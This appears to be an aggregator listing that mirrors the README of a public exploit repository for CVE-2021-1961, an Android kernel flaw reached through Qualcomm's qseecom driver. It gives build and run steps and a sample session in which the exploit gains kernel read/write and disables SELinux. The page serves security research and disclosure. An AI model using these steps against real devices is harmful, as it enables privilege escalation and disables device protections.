 # CVE-2021-1961

Exploit code for CVE-2021-1961

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/tamirzb](https://github.com/tamirzb) |
| Url      | [https://github.com/tamirzb/CVE-2021-1961](https://github.com/tamirzb/CVE-2021-1961)                                               |
| Stars    | 93                                                          |
| License  | GNU General Public License v3.0                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

Exploit code for CVE-2021-1961. Full write-up is available
[on my blog](https://tamirzb.com/attacking-android-kernel-using-qualcomm-trustzone).

In order to build the exploit, run Android NDK's `ndk-build`.

In order to run the exploit, you need to have access to `/dev/qseecom`, which
means having the right user/group and the right SELinux context. This can be
done either on a debug image using the command `su system`, or on a stock image
patched with [Magisk](https://github.com/topjohnwu/Magisk) using the command
`su - system`.

Here is an example of running the exploit on a stock image patched with Magisk:

```bash
$ adb push qseecom_exploit /data/local/tmp
$ adb shell
blueline:/ $ cd /data/local/tmp
blueline:/data/local/tmp $ su - system
blueline:/data/local/tmp $ id
uid=1000(system) gid=1000(system) groups=1000(system) context=u:r:magisk:s0
blueline:/data/local/tmp $ getenforce
Enforcing
blueline:/data/local/tmp $ ./qseecom_exploit
[+] Setup widevine
[+] Got a 32 bit addresses ION
[+] Setup exploit kernel r/w
[+] Found kallsyms_token_table marker
[+] Found all kallsyms data
[+] Kernel virtual base address: 0xffffff9b9b080000
[+] Modified /proc/version
[+] Disabled SELinux
blueline:/data/local/tmp $ cat /proc/version
*modified*
blueline:/data/local/tmp $ getenforce
Permissive
```



## Get the content

```
git clone https://github.com/tamirzb/CVE-2021-1961
cd CVE-2021-1961
```

{% embed url="https://github.com/tamirzb/CVE-2021-1961" %}

<figure><img src="https://avatars.githubusercontent.com/u/1054209?v=4" alt=""><figcaption><p>tamirzb</p></figcaption></figure>

